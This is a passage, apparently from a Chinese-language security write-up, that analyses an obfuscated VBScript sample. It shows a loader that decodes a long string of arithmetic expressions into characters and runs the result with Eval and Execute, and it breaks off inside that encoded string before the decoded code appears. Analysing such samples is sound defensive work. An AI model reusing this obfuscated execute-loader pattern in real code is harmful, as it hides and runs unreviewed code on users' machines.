*8559-8449*-3375+3474*698552/6022*938490/8938*64047/577*678260/6166*36460/3646"
cXHlIILPNahelxjJqaTHXzURaZ = SpLiT(dONafTMecvWZJslWGWeGIoMYhr, Chr(eVal(-2651+2693)))
fOr eacH aUmsIMvQDdxmlmsUhLJhfqYVUx In CXhLiIlPnahELXJJqAThXzUrAZ
uExIFqyILAHuJuOdeRSSwoZHOK = uexiFqyilAHUjuODeRSSWozhok & chr(EvaL(AUmsiMvqDdxmlMSUhljhfqyvUX))
NExt
rPGNHwDFhoSzxrfSuJzaaOoVHq
EnD SUB
sub RpgNHWdfHOsZXrfSUjzaAoovhQ
EvAl(exECUTe(UeXIfqyilAHuJuodersSWOZHoK))
End SuB
NrORYtgPYDkYXINSHYpJyhknHZ
```

可以发现被混淆了，我们直接解混淆一下

```
# 假设初始化的字符串
DgtsBdJtEpjIlKMcvpKuMkflhSPGhjk = "58956/867*876960/8352*780331/7159*-5621+5653*407088/4112*2236-2125*6324-6215*-6084+6193*2331-2234*3955-3845*369100/3691*82060/8206*3066-2967*992562/8942*7405-7296*-9496+9605*104663/1079*864380/7858*-138+238*-9311+9343*7213-7152*5500-5468*9407-9341*1504-1407*283130/2462*5210-5109*6457-6403*-614+666*307847/3709*-9292+9408*10010-9896*601965/5733*-1277+1387*3271-3168*-9171+9239*385012/3812*-225+324*-6249+6360*9350-9250*182103/1803*630-590*18054/531*5786-5705*9110-8988*252448/2254*8335-8236*-6414+6500*99750/1995*472176/4372*43407/371*5982-5892*383897/5407*7391-7334*-6472+6523*-8257+8356*349174/7126*7964-7845*-8544+8595*1582-1481*1863-1758*-8424+8477*613656/5682*900415/8915*254890/3590*3209-3124*8519-8416*5697-5596*4583-4516*-6134+6199*-479+595*735372/7428*113245/1595*5319-5262*596000/7450*-3712+3793*448320/9340*9382-9300*8415-8338*-9508+9597*928898/8522*441612/3807*387806/3998*460570/5830*-2043+2128*373-324*353808/7371*378000/3780*-2309+2393*704435/7915*474861/9311*367659/4539*-1607+1694*1866-1746*3728-3675*4839-4742*172312/2534*484640/4660*305270/6230*-129+210*-7307+7394*-4982+5052*583833/8223*179363/2161*95256/1323*980869/9167*17950/359*-2654+2737*238464/4968*445342/5431*-1840+1962*339714/4194*-1637+1687*237540/3210*-3141+3213*4955-4882*360058/5374*9612-9563*-8710+8763*5383-5310*438771/6359*314391/4083*-796+850*570592/6484*656-586*9557-9457*890-778*505484/5158*-4292+4401*600568/7324*-1913+2031*-7904+8004*-4839+4890*-7085+7163*5718-5619*891450/9905*724305/6645*2381-2261*8374-8270*375210/4169*257367/2127*271201/5117*6070-6016*2079-1982*-9085+9173*3837-3772*9673-9612*6442-6408*299177/7297*2894-2884*66160/6616*890-817*8985-8883*5152-5120*290920/4156*210210/2002*-1182+1290*8837-8736*153387/2223*-3979+4099*825090/7858*-2833+2948*-8273+8389*-7851+7966*9366-9326*-9456+9490*452317/6751*496364/8558*169740/1845*148509/1707*1303-1198*926-816*226600/2266*884-773*-4549+4668*-7851+7966*100832/1096*300468/3577*8301-8200*859029/7881*-7420+7532*-8734+8826*160055/1345*4123-4018*-1520+1630*300400/3004*2180-2069*1198-1079*3402-3287*406440/9032*-5733+5844*689920/7040*-6649+6755*863348/8548*8252-8153*2551-2435*8557-8512*5089-5033*6152-6051*-311+365*8234-8133*-3461+3518*357408/3504*397040/7090*442035/4465*-2585+2630*377450/7549*-1003+1051*858432/8416*578646/5673*2210-2165*-3894+3946*-330+432*9080-9025*2268-2170*323550/7190*106134/1862*405426/8274*884834/9122*-4869+4923*-4453+4498*49827/977*-4391+4439*-1071+1169*1406-1309*455800/9116*-9560+9662*304289/3137*-1087+1135*-7448+7504*4493-4392*1468-1419*300700/3100*232438/5053*497340/4605*-5105+5216*482-379*-3616+3650*-5700+5741*9908-9876*668892/7963*772096/7424*595294/5894*-9530+9640*16060/1606*232352/7261*1149-1117*109728/3429*8742-8710*5057-4952*798820/7262*1011-899*-2602+2719*-9774+9890*452270/6461*3995-3890*6715-6607*9239-9138*214048/6689*-1641+1702*94720/2960*163778/4817*-830+897*9618-9560*-5711+5803*266-179*903000/8600*-524+634*179900/1799*5196-5085*3073-2954*765095/6653*4315-4223*417732/4973*-9444+9545*628058/5762*-5234+5346*270112/2936*984844/8276*5816-5711*793100/7210*-4159+4259*4820-4709*-8300+8419*974625/8475*29970/666*324453/2923*-8520+8618*-9633+9739*-4304+4405*2386-2287*7377-7261*2155-2110*7780-7724*2465-2364*-2367+2421*9285-9184*7031-6974*4754-4652*763-707*-9831+9930*292095/6491*148050/2961*-4965+5013*-6568+6670*34782/341*217080/4824*227344/4372*8774-8672*8408-8353*3204-3106*-2090+2135*275367/4831*9416-9367*8662-8565*8217-8163*9735-9690*420597/8247*7530-7482*-1326+1424*9980-9883*4468-4418*8655-8553*2370-2273*-4804+4852*-3215+3271*5517-5416*120638/2462*507019/5227*206724/4494*699732/6479*282384/2544*-9214+9317*297500/8750*14120/1412*-4785+4817*-9717+9749*-4160+4192*-6898+6930*-7501+7584*-612+713*1846-1730*7135-7103*1395-1290*5165-5055*631879/7613*-5984+6100*-7830+7944*9180-9079*902-805*-7137+7246*-6168+6200*86071/1411*126848/3964*1012-945*4397-4283*-9390+9491*-2531+2628*1089472/9392*5297-5196*59961/759*9682-9584*2918-2812*451773/4473*543807/5493*-8802+8918*3462-3422*-3504+3538*607295/9343*563992/8294*9083-9004*-9538+9606*325974/4939*1221-1175*-5928+6011*749-633*-4556+4670*199071/1971*6582-6485*5341-5232*-3318+3352*399258/9738*6088-6078*-6318+6350*-6395+6427*-6528+6560*-4725+4757*1007370/9594*902550/8205*-3183+3266*-6687+6803*22116/194*384204/3804*7029-6932*301712/2768*-2927+2973*1162-1083*-6432+6544*489547/4847*-1197+1307*8720/872*84192/2631*2731-2699*253312/7916*1519-1487*-6016+6121*234080/2128*4303-4220*225620/1945*73416/644*6911-6810*546401/5633*446137/4093*4735-4689*-9602+9718*-2754+2875*-1416+1528*243410/2410*27084/444*163456/5108*48608/992*179168/5599*70668/1812*3360-3276*-5032+5153*789-677*833654/8254*-3644+3710*7294-7189*837870/7617*-9827+9924*7812-7698*-8012+8133*2749-2739*216576/6768*230144/7192*-5566+5598*-8836+8868*762930/7266*230560/2096*-3905+3988*-3970+4086*168720/1480*351682/3482*150932/1556*-6123+6232*7708-7662*-3358+3434*523920/4720*953801/9833*10100/101*-9021+9091*4509-4395*615939/5549*6816-6707*171080/2444*-7214+7319*-8712+8820*942-841*238600/5965*9194-9089*412940/3754*681968/6089*-9419+9536*-8667+8783*298270/4261*639765/6093*-6616+6724*-4671+4772*-3788+3829*1703-1693*3785-3753*114336/3573*8340-8308*111584/3487*-3793+3907*3928-3827*5456-5359*3190-3090*8770-8704*6935-6814*69020/595*788103/7803*-8824+8939*5301-5269*609085/9985*8256-8224*216720/2064*2063-1953*13446/162*179800/1550*3058-2944*986265/9765*-9167+9264*-3361+3470*258980/5630*-4006+4088*-3117+3218*643013/6629*1910-1810*361520/9038*-4032+4073*-5979+5989*-9353+9363*-8339+8371*-3322+3354*17440/545*26912/841*8171-8088*900920/8920*-6348+6464*15040/470*-1554+1665*121088/1376*-716+793*3232-3156*92224/2882*-5366+5427*217440/6795*275236/4108*247608/2172*215938/2138*-4337+4434*-7186+7302*20099/199*-8823+8902*-3865+3963*7609-7503*-1691+1792*-90+189*149176/1286*9686-9646*34986/1029*-7855+7932*1611-1496*375120/3126*-5435+5544*775224/7178*-165+215*-4060+4106*10019-9951*-4912+4991*8831-8754*-7642+7710*9938-9827*-1161+1260*-8181+8298*8257-8148*6898-6797*136290/1239*-3933+4049*113016/3324*4660-4619*1404-1394*-6101+6133*4499-4467*-8804+8836*-8369+8401*-5604+5687*8063-7962*752376/6486*438-406*1093350/9850*315354/4043*437340/3940*716100/7161*-6730+6831*104320/3260*297436/4876*223968/6999*4316-4205*-5400+5488*300993/3909*637944/8394*6488-6442*-6499+6566*259578/2277*-9651+9752*-7086+7183*52432/452*2733-2632*372876/5404*-7464+7572*290274/2874*8532-8423*427836/4236*-7421+7531*-1372+1488*115360/2884*-3051+3085*-4875+4973*94090/970*567640/4936*1008182/9982*7585-7531*5326-5274*6198-6164*6429-6388*77200/7720*-4260+4292*171136/5348*-5195+5227*9546-9514*6553-6442*-5617+5695*-3349+3460*635800/6358*-8241+8342*2068-2022*8228-8128*5880-5783*4896-4780*-2585+2682*3783-3699*-522+643*-6125+6237*-7352+7453*107456/3358*-5515+5576*4868-4836*333098/9797*-5746+5844*1903-1798*-7068+7178*259992/5652*785372/8014*-2895+2992*-2961+3076*7871-7770*153954/2851*-4454+4506*-8576+8610*7995-7985*283232/8851*4378-4346*9865-9833*159584/4987*170052/1532*6690-6612*1079-968*244700/2447*1378-1277*267122/5807*9839-9729*-4587+4698*4211-4111*7833-7732*-8203+8287*6932-6811*4532-4420*-1940+2041*6056-5956*2535-2449*-3656+3753*-292+400*-6231+6348*-8236+8337*-9397+9429*606889/9949*6111-6079*6588-6474*2960-2859*2049-1952*-3716+3816*-966+1032*55660/460*4385-4269*-4826+4927*320620/2788*40490/4049*-9597+9629*1289-1257*7646-7614*9420-9388*503052/7622*2582-2485*833290/7246*-102+203*-8525+8579*429936/8268*632937/9173*-5401+5511*3831-3732*567654/5114*-7254+7354*885871/8771*116288/3634*112057/1837*-2793+2825*1064-953*4384-4306*146409/1319*-6516+6616*8006-7905*375866/8171*-4212+4328*1904-1803*9310-9190*258-142*92550/9255*-5752+5784*-386+418*7153-7121*4905-4873*92450/9245*6698-6666*-4787+4819*-8202+8234*318080/9940*-9782+9861*-4566+4676*2961-2929*400821/5809*-1562+1676*5792-5678*540126/4866*10081-9967*60640/1895*177612/2166*922130/9130*2222-2107*6447-6330*437962/4018*394304/3904*229408/7169*1139-1061*-1492+1593*2558-2438*2305-2189*9295-9285*4671-4639*-9516+9548*119296/3728*-2130+2162*551867/6649*784366/7766*-200+316*2860-2828*9611-9500*5872-5774*953364/8994*-2778+2862*1711-1610*596850/5190*2206-2090*1632-1554*1810-1709*448273/3767*-402+475*2916-2806*-9617+9732*275848/2378*1516-1484*598959/9819*-6079+6111*568852/8012*-5843+5944*7778-7662*-2006+2085*75950/775*4922-4816*844865/8365*-7025+7124*5235-5119*7937-7897*307190/9035*-9162+9249*834855/7951*4670-4560*-4045+4154*-5775+5878*-9104+9213*-2570+2686*-672+787*1459-1401*266418/2337*752247/6777*-2835+2946*-7951+8067*-4829+4921*3683-3616*-6898+7003*51666/474*-3598+3716*423950/8479*259724/4478*183918/2114*370125/3525*536690/4879*282336/5536*-6794+6844*1857-1762*2276-2197*335984/4048*274-192*-1488+1589*6946-6847*-7954+8065*5153-5035*802344/7944*-5951+6065*524777/4337*660218/9854*2157-2046*109450/995*7417-7315*335370/3194*1932-1829*597987/5111*552216/4844*5707-5610*3283-3167*554085/5277*-6889+7000*-7642+7752*261392/3844*4904-4807*7904-7788*-2128+2225*8050-7984*3053-2956*380-281*1012220/9460*5002-4885*821520/7335*-6393+6439*17889/267*305-191*241188/2388*4022-3925*-7146+7262*-2033+2138*-1364+1475*-4199+4309*-2096+2163*2975-2867*427770/4410*409860/3564*271285/2359*-1551+1629*-9426+9523*7521-7412*3561-3460*8249-8188*250444/7366*9355-9321*4881-4781*617204/6298*476574/4863*1756-1701*313200/5800*-8810+8862*311760/6495*401648/7724*6795/151*646506/6597*88440/1608*-2738+2788*-4548+4649*-7774+7819*-5449+5501*-1414+1464*-3939+4041*6863-6766*-3846+3891*5825-5728*582679/6007*-4267+4316*103194/1911*8629-8584*6418-6362*915389/9437*546630/9590*497200/9944*486766/4967*761409/7691*199968/4166*7116-7062*-7739+7793*266034/2634*-5427+5476*1025-976*4396-4362*-3079+3113*9899-9865*-667+708*7508-7498*8228-8196*7779-7747*-7465+7497*146528/4579*8111-8038*8451-8349*9168-9136*653-584*341772/2998*-328+442*126730/2755*8520-8442*388557/3321*455620/4180*76440/780*291183/2883*607050/5325*8984-8952*-7483+7543*-6667+6729*92608/2894*-5472+5520*66304/2072*-9454+9538*-8006+8110*253914/2514*7232-7122*20380/2038*-6782+6814*270048/8439*85280/2665*316032/9876*5244-5212*31680/990*215264/6727*1069-1037*-8077+8146*908580/7970*-2763+2877*117392/2552*475566/7098*907200/8400*-1697+1798*-7105+7202*9889-9775*975-965*5875-5843*3248-3216*3267-3235*3690-3658*-5288+5320*281088/8784*204064/6377*65312/2041*130543/1097*-8554+8652*418443/4143*-9566+9675*124553/1859*153825/1465*5265-5156*763048/6578*-1079+1200*226464/2022*827695/8195*453678/5466*5253-5137*734958/6447*398685/3797*-499+609*874985/8495*311264/9727*-1337+1398*3645-3613*235144/4199*68250/6825*47424/1482*-2062+2094*111232/3476*-2794+2826*8615-8583*182784/5712*16256/508*59776/1868*203682/2454*748309/7409*-6674+6790*-8120+8152*3112-3001*-304+402*287578/2713*-1924+1991*451764/4183*-3146+3243*-5298+5413*159160/1384*-1835+1867*-512+573*68544/2142*211083/2973*-8950+9051*-1373+1489*768275/9725*9426-9328*-8763+8869*-684+785*7774-7675*32016/276*-3453+3493*67592/1988*7725-7638*48825/465*632940/5754*1572-1463*885388/8596*-66+175*807-691*9902-9787*-3289+3347*-8905+9019*655455/5905*3210-3099*6617-6501*2695-2603*782199/7901*538440/5128*-7371+7480*789892/6694*-485+535*-1310+1368*-9673+9760*-2590+2695*-2070+2180*-2827+2878*359000/7180*-3376+3471*-9299+9378*174881/2107*-9238+9320*7354-7253*603405/6095*-1259+1370*8779-8661*627614/6214*7189-7075*5016-4895*6674-6607*2005-1894*-7821+7931*525912/5156*-6542+6647*8937-8834*-4368+4485*5736-5622*-269+366*-8151+8267*-9076+9181*3200-3089*-2197+2307*9058-8990*2346-2249*910-794*615-518*-9857+9923*9710-9613*-1157+1256*6275-6168*4771-4654*6325-6213*1034-1000*7840-7799*75750/7575*47328/1479*-3949+3981*9170-9138*-3679+3711*-8565+8597*-8727+8759*240448/7514*4524-4492*8854-8771*-4396+4497*2819-2703*8855-8823*1264-1153*2664-2566*7131-7025*727810/9970*148170/1347*526-411*-1772+1888*-4185+4282*-8894+9004*855855/8645*-4430+4531*6118-6086*230519/3779*21440/670*100344/904*-6071+6169*-8934+9040*7167-7100*221508/2051*8321-8224*-3784+3899*-127+242*-1188+1234*-8381+8496*8468-8356*-7090+7187*-1813+1932*-4667+4777*827820/7884*1050720/9552*-2056+2171*-9650+9766*6821-6724*3587-3477*390951/3949*-5472+5573*-716+811*30500/3050*268160/8380*3597-3565*247904/7747*197600/6175*1024-992*271648/8489*1871-1839*7427-7395*6137-6026*-7719+7817*-3204+3310*37887/519*18700/170*829955/7217*-2237+2353*-7797+7894*7473-7363*4964-4865*521160/5160*-8170+8216*4052-3985*7253-7139*9424-9323*452893/4669*-1433+1549*1345-1240*1100787/9917*188760/1716*-2939+3006*128628/1191*655623/6759*1070420/9308*299-184*2295-2217*-3964+4061*-4669+4778*7390-7289*318976/9968*3396-3335*-3588+3620*176834/5201*124400/1244*4487-4389*-1768+1866*9417-9362*108432/2008*421096/8098*108048/2251*1510-1458*8061-8016*192962/1969*-3599+3654*5694-5644*-5116+5217*-2187+2232*281372/5411*-6500+6550*-2484+2586*-2855+2952*161460/3588*-3023+3120*7138-7041*100597/2053*125334/2321*-256+301*403816/7211*9612-9515*255474/4482*-7006+7056*-1007+1105*-2766+2865*2713-2665*-2208+2262*-9704+9758*137865/1365*-7317+7366*8769-8720*329222/9683*-9873+9883*5580-5548*1864-1832*-4340+4372*-5544+5576*187648/5864*5675-5643*-4871+4903*279296/8728*1099899/9909*-9542+9640*-1758+1864*356386/4882*-1643+1753*-3722+3837*10036-9920*384217/3961*223850/2035*66429/671*2133-2032*163622/3557*-7001+7069*-8280+8381*315-217*395226/3378*3607-3504*9604-9525*361984/3232*-7666+7782*1022070/9734*-2240+2351*4478-4368*-2537+2652*209920/6560*222101/3641*-6314+6346*-7846+7912*-2824+2921*181815/1581*631452/6252*330696/6124*1416-1364*119025/1725*2871-2761*656469/6631*6889-6778*203500/2035*-7623+7724*77830/7783*-7598+7630*-9778+9810*248160/7755*-8494+8526*-2154+2186*7358-7326*9658-9626*-2292+2324*-5194+5305*602602/6149*195464/1844*599476/8212*-5940+6050*727950/6330*547752/4722*6913-6816*4611-4501*7029-6930*76154/754*2827-2781*-1967+2079*425529/3637*7371-7255*9217-9122*44170/4417*256160/8005*4064-4032*133504/4172*4712-4680*171258/2482*2112-2004*9166-9051*582770/5770*-895+905*-6214+6246*-4551+4583*5633-5601*-9276+9308*1345-1276*1033340/9394*-669+769*6065-6033*-3197+3270*51204/502*8896-8886*-1005+1074*1002456/9282*2257-2142*1611-1510*-7854+7864*-383+415*220576/6893*-9441+9473*-6166+6198*295202/4406*8837-8726*-8958+9068*-4863+4978*728596/6281*-5981+6013*2352-2268*291384/2556*-949+1054*349273/3391*399-296*8708-8607*-2186+2300*833-749*-8478+8599*-912+1024*-9091+9192*117776/1732*-7875+7972*26670/254*1610-1502*484121/4001*-8989+9021*8883-8822*-1989+2021*-1826+1875*1710/171*172800/5400*4834-4802*-5619+5651*-2298+2330*8686-8619*153180/1380*9357-9247*467820/4068*1070216/9226*-4286+4318*144365/2221*238986/2414*934496/8056*-6157+6262*-2901+3012*-5947+6057*-1598+1682*8435-8314*5664-5552*1503-1402*-7155+7224*2110-1990*5827-5726*3531-3432*9541-9509*396805/6505*-7215+7247*2295-2247*7965-7955*-2211+2243*4837-4805*64480/2015*207744/6492*1877-1794*219978/2178*-9038+9154*848-816*-6644+6759*807394/7994*616170/5405*9657-9539*-7522+7627*-8220+8319*887386/8786*-7632+7664*7173-7112*-650+682*3045-2978*4862-4748*-2986+3087*-3159+3256*-8912+9028*-6017+6118*908-829*7190-7092*-4542+4648*331179/3279*6127-6028*-7443+7559*-3661+3701*5637-5603*5160-5077*100683/1017*474240/4560*617514/6114*1735-1635*7195-7078*-8104+8212*3256-3155*-1959+2005*83498/1006*-6347+6448*-8133+8247*1132210/9595*-2350+2455*-3535+3634*758914/7514*-6406+6440*40508/988*11960/1196*-3558+3590*4890-4858*214752/6711*296000/9250*250245/3735*890072/9176*406620/3765*6026-5918*-6789+6821*268985/2339*-5059+5160*7875-7761*439078/3721*-5409+5514*-7947+8046*-8302+8403*409952/8912*-5781+5848*-6821+6932*-4020+4130*-5244+5354*856379/8479*3570-3471*3814-3698*-7388+7398*-9867+9899*4866-4834*3113-3081*-7442+7474*-9535+9603*3138-3033*457909/4201*23648/739*-7289+7403*1535-1424*5590-5479*-2078+2194*665000/9500*-1322+1433*-3624+3732*854900/8549*3629-3528*-7855+7969*-5591+5601*-2695+2727*2715-2683*-417+449*1268-1236*773062/9314*1855-1754*2600-2484*663-631*-5163+5277*4068-3957*750582/6762*379320/3270*687750/9825*-7551+7662*8696-8588*-3292+3392*-4253+4354*-2155+2269*106880/3340*1899-1838*-9635+9667*8424-8309*810222/8022*863892/7578*4157-4039*697725/6645*2437-2338*-9247+9348*-9168+9214*544428/7668*-9280+9381*9488-9372*174020/2486*297036/2676*-963+1071*22800/228*-8327+8428*605568/5312*386320/9658*-3642+3676*168728/1834*2601-2567*63509/1549*11950/1195*114944/3592*8294-8262*-7876+7908*-2389+2421*262140/3855*843465/8033*8284-8175*-1407+1439*8125-8009*312243/3219*753250/6550*4793-4686*432072/6354*2359-2258*5942-5840*-2578+2683*6390-6280*755895/7199*2463-2347*-2857+2962*25641/231*-7336+7446*3730/373*-3834+3866*317664/9927*191744/5992*-7000+7032*5871-5788*-8467+8568*-9751+9867*98336/3073*772560/6660*-3710+3807*810980/7052*395793/3699*4935-4867*916272/9072*499800/4900*-9119+9224*-2857+2967*-2116+2221*-8796+8912*-7804+7909*553446/4986*258720/2352*197824/6182*230946/3786*201888/6309*-605+720*-7197+7298*8763-8649*-7324+7442*-7054+7159*914067/9233*1994-1893*276276/6006*742872/9524*67569/669*331534/2786*-7396+7480*-8157+8254*851460/7404*859210/8030*-1462+1502*-1635+1683*241285/5885*-8252+8262*33184/1037*319072/9971*-9046+9078*245696/7678*239224/3518*7267-7162*8635-8526*-1341+1373*363318/3187*501162/4962*6937-6834*10041-9968*71060/646*9492-9390*3148-3037*5042-5032*293600/9175*4502-4470*60512/1891*4315-4283*2439-2356*8062-7961*16008/138*7125-7093*4950-4836*8668-8567*328570/3190*420553/5761*-8103+8213*8538-8436*185814/1674*8870-8838*289140/4740*90688/2834*-21+137*5944-5847*916435/7969*-2349+2456*654432/9624*200283/1983*-5302+5404*-4904+5009*6112-6002*-3276+3381*-2962+3078*7596-7491*-3627+3738*173470/1577*-6381+6427*3387-3305*8939-8838*752930/7310*-1314+1419*-9590+9705*-7124+7240*216258/1897*1051-954*5311-5195*886-781*-1600+1711*2699-2589*-5113+5186*742170/6747*2688-2586*679320/6120*8400-8390*188800/5900*7314-7282*-733+765*8602-8570*-4486+4600*-6640+6741*3216-3113*5760-5687*1045220/9502*9686-9584*9453-9342*444314/9659*140012/2059*6266-6165*674820/5868*-6298+6397*7259-7145*-1716+1821*5682-5570*-3502+3618*2489-2384*-2771+2882*2467-2357*7820-7788*526674/8634*61728/1929*251430/7395*360060/4236*-8911+9023*6125-6025*557-460*5962-5846*620948/6148*197948/5822*5943-5933*835-803*-960+992*-2383+2415*5968-5936*556890/4885*408747/4047*8756-8653*401500/5500*869440/7904*897396/8798*457-346*-4271+4317*391235/6019*6038-5921*-3883+3999*403000/3875*-6304+6415*-4521+4635*94656/2958*341356/5596*307104/9597*-4408+4442*8585-8508*-2073+2178*9080-8981*1535-1421*733266/6606*-16+131*-5061+5172*36108/354*765368/6598*-4301+4335*4190-4180*178400/5575*66368/2074*48192/1506*318880/9965*-8755+8823*-3482+3587*311086/2854*-984+1016*6941-6826*95849/949*5861-5745*6221-6105*532035/5067*886930/8063*-560+663*1287-1172*78320/7832*1759-1727*27200/850*236256/7383*101920/3185*-4051+4134*-9355+9456*-512+628*-7696+7728*-7077+7192*52419/519*630228/5433*-3741+3857*-1902+2007*9514-9404*1310-1207*-3361+3476*4211-4179*475739/7799*-582+614*272832/2352*-1411+1508*-1631+1746*241-134*551548/8111*-4764+4865*9525-9423*-4087+4192*6698-6588*743295/7079*2467-2351*-2661+2766*2053-1942*3982-3872*4634-4588*4826-4711*-9799+9900*-8370+8486*-9072+9188*960855/9151*-3775+3885*6899-6796*7044-6929*-604+614*2329-2297*2263-2231*7402-7370*21248/664*1758-1643*-7270+7371*-9721+9837*750056/6466*3984-3879*594000/5400*-5011+5114*-986+1101*-171+217*7477-7408*-6955+7065*-114+211*1082-984*484920/4490*-4143+4244*5669-5569*296288/9259*-1755+1816*83424/2607*413616/4924*-4376+4490*-8011+8128*4935-4834*-1489+1499*61632/1926*-8407+8439*132992/4156*-6423+6455*-2917+3032*3910-3809*4835-4719*290580/2505*9884-9779*-9315+9425*578036/5612*2771-2656*447212/9722*-5182+5265*6986-6870*406139/4187*804726/7059*248240/2140*-737+824*4976-4872*998688/9888*112090/1019*578955/8907*213462/1809*10007-9910*7260-7155*4169-4061*5911-5814*26460/270*1207-1099*172912/1712*-8231+8263*40870/670*43104/1347*-5876+5960*3854-3740*4432-4315*490355/4855*-8372+8382*91808/2869*3328-3296*277312/8666*-2258+2290*9234-9119*7797-7696*1054208/9088*279212/2407*-9678+9783*7755-7645*853046/8282*3790-3675*-9787+9833*9464-9392*508-403*941300/9413*-4097+4197*824968/8168*1552-1442*-7447+7479*383934/6294*91712/2866*-7520+7590*954-857*-7012+7120*-3880+3995*-1132+1233*80890/8089*8736-8704*-4449+4481*281632/8801*2816-2784*-3598+3713*4751-4650*-8673+8789*613-497*-9359+9464*8382-8272*10009-9906*9687-9572*1739-1693*3773-3705*-9678+9783*4332-4217*752914/7762*726-618*-6584+6692*4361-4250*-3563+3682*-6126+6209*655168/5648*218735/2255*-3944+4058*88740/765*372592/5104*1898-1796*4810-4731*-4329+4439*3543-3477*728761/7513*852484/7349*3335-3219*-3588+3689*-2133+2247*-8795+8900*286941/2841*98210/854*-8635+8667*-323+384*-3330+3362*-5871+5941*7968-7871*349812/3239*1029250/8950*-168+269*-1985+1995*3678-3646*244096/7628*9833-9801*-7275+7307*150824/2218*3396-3291*-2911+3020*1002-970*294872/2542*8642-8528*4816-4711*2728-2625*712863/6921*3899-3798*191178/1677*2006-1891*-2157+2167*156928/4904*258432/8076*3881-3849*3100-3068*41832/504*6044-5943*-9825+9941*-2893+2925*9786-9670*-9083+9197*7110-7005*3199-3096*97438/946*139279/1379*-9607+9721*1177-1062*4922-4890*-6902+6963*155520/4860*354960/3060*5061-4964*-4657+4772*-6006+6113*428060/6295*-882+983*8904-8802*302190/2878*1154-1044*-806+911*3701-3585*256-151*217227/1957*-9347+9457*-8865+8911*6766-6650*842118/7387*52185/497*-2675+2778*-5899+6002*2922-2821*-5939+6053*8598-8483*-6124+6134*75136/2348*8982-8950*3441-3409*-4729+4761*3866-3798*-3955+4060*6332-6223*212640/6645*6888-6772*3733-3619*6460-6355*-538+641*5933-5830*4551-4450*1127460/9890*95780/9578*67456/2108*-1003+1035*9781-9749*-9383+9415*447785/5395*-4337+4438*-7084+7200*115328/3604*3690-3574*245898/2157*-6438+6543*10040-9937*-6724+6827*-3296+3397*1049484/9206*224800/7025*-4877+4938*1409-1377*9163-9047*6479-6365*122325/1165*568251/5517*-8080+8183*-1157+1258*9936-9822*948060/8244*5306-5260*-6380+6447*-7389+7503*3575-3474*-3972+4069*6005-5889*-9337+9438*-7390+7430*240735/4377*314798/7678*-9404+9414*2127-2095*-4983+5015*1487-1455*2742-2710*-1256+1324*247-142*5441-5332*5023-4991*9538-9473*-3356+3455*1041448/8978*6591-6486*628149/5659*155980/1418*-4102+4112*3688-3656*-4300+4332*4254-4222*302176/9443*7797-7714*-4517+4618*-3616+3732*45600/1425*-6553+6618*-3714+3813*1126824/9714*-4975+5080*-1306+1417*-121+231*3091-3059*503-442*265248/8289*-5787+5903*-3973+4070*410435/3569*746860/6980*-7230+7298*-61+162*3217-3115*3499-3394*27940/254*509460/4852*9986-9870*-458+563*699189/6299*-3575+3685*187174/4069*108615/1671*-1519+1618*644496/5556*-3495+3600*499722/4502*905300/8230*558900/4860*7862-7816*-6080+6147*-5413+5527*4992-4891*1204-1107*104864/904*-1530+1631*109360/2734*515060/7924*944856/9544*7312-7196*777630/7406*7778-7667*-9637+9747*-3052+3136*410190/3390*7264-7152*-8814+8915*329751/4779*9699-9579*445107/4407*575091/5809*260432/6352*89970/8997*-89+121*-1652+1684*-3958+3990*-3489+3521*-250+315*-812+911*251952/2172*3966-3861*573648/5168*1433-1323*5630-5584*-4228+4308*529135/5455*7926-7810*757328/7282*-9376+9408*437736/7176*5797-5765*3993-3959*949311/9589*917-859*1752-1660*12+107*-2547+2652*-4068+4178*8418-8318*-3072+3183*505512/4248*-2160+2275*-1693+1785*6841-6726*-8132+8253*8564-8449*177248/1528*7830-7729*9484-9375*3518-3467*4020-3970*9482-9390*863775/8725*-9645+9754*-2231+2331*3371-3325*4206-4105*-6132+6252*-3418+3519*1677-1643*8977-8967*3345-3313*6130-6098*278368/8699*234688/7334*-5729+5794*6919-6820*7602-7486*6533-6428*-1235+1346*4747-4637*-1758+1804*533403/5499*-603+717*-9118+9221*-2783+2900*9629-9520*809616/8016*-5279+5389*783232/6752*-2528+2643*5375-5343*4902-4841*-1569+1601*-9306+9340*71675/1525*-9471+9552*-6587+6619*6175-6128*-5397+5496*150432/4701*-6183+6217*5057-5025*-5865+5903*7816-7784*847836/8564*-1700+1811*321877/2953*7314-7205*79734/822*4697-4587*7442-7342*230784/7212*6758-6720*3619-3587*-8132+8166*-4584+4616*5565-5516*6326-6264*120576/3768*-1146+1213*7729-7671*8013-7921*725580/8340*-682+787*7771-7661*967500/9675*1090464/9824*449582/3778*718520/6248*3802-3710*6192-6108*6794-6693*-8430+8539*3238-3126*6424-6332*-256+375*3800-3695*115500/1050*-7034+7134*6065-5954*6914-6795*370645/3223*419445/9321*-6488+6599*-7727+7825*-7117+7223*5771-5670*530145/5355*-7728+7844*218835/4863*88088/1573*-8267+8368*-4419+4473*608525/6025*-3118+3175*6786-6684*-7279+7335*-6840+6939*7282-7237*6979-6929*-8165+8213*396474/3887*479604/4702*-9258+9303*120900/2325*2540-2438*-6181+6236*955010/9745*5357-5312*466716/8188*-5302+5351*319421/3293*2305-2251*213930/4754*179010/3510*-1611+1659*833392/8504*4893-4796*-8061+8111*1660-1558*328539/3387*3912-3864*6796-6740*818201/8101*3192-3143*-5215+5312*6595-6549*9465-9357*-9119+9230*745617/7239*6482-6450*2554-2504*4049-3987*-3503+3541*362-313*7725-7691*582-572*5106-5074*257184/8037*301952/9436*121408/3794*-8936+9004*5513-5408*836248/7672*3868-3836*-9515+9626*596722/6089*837294/7899*-9045+9123*343198/3398*696928/6008*-2560+2604*-4698+4730*-2926+3002*-7095+7206*9746-9643*407190/3878*-8412+8522*704650/8290*-2051+2166*1374-1273*487350/4275*-7757+7767*180032/5626*6425-6393*2359-2327*3281-3249*6592-6509*6562-6461*-8098+8214*5469-5437*700854/6314*3373-3275*-6092+6198*461292/5914*-6979+7080*615960/5310*-7244+7276*5728-5667*3579-3547*-9031+9098*7681-7567*-1790+1891*62759/647*383960/3310*3469-3368*786682/9958*-4977+5075*555334/5239*674478/6678*-4882+4981*117160/1010*-3770+3810*300526/8839*1124-1037*402-319*3206-3107*909378/7977*2474-2369*649488/5799*-8476+8592*-6160+6206*6714-6636*-5550+5651*-84+200*1864-1745*2602-2491*1104-990*485138/4534*-608+642*8528-8487*91740/9174*-2011+2043*9649-9617*3807-3775*5591-5559*-7740+7816*-9700+9811*742424/7208*851340/8108*393910/3581*236470/2782*-5913+6028*7008-6907*-5555+5669*7182-7150*151646/24